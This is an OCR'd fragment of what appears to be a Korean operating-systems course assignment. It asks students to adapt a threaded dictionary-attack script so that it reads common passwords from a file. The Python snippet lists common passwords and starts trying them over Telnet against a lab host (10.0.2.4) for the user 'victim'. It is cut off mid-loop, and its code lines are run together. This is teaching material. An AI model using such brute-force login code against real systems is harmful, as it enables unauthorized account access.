 # -
 “09-운영체제-프로세스와스레드4” 슬라이드에 있는 스레드 기반 사전 공격 프로그램을 이용한 사전 파일에서 자주 사용하는 비밀번호를 읽어 공격하도록 수정하는 과제이다.
import os import telnetlib import threading
words = ["123456", "12345", "123456789", "password", "iloveyou", "princess", "1234567", "rockyou"]
def dicattack (msg, i0): t = telnetlib.Telnet ("10.0.2.4") for i in range(i0, 8, 2): try: print msg + " / " + str (i) + " / ID: victim / Password: " + words [i]
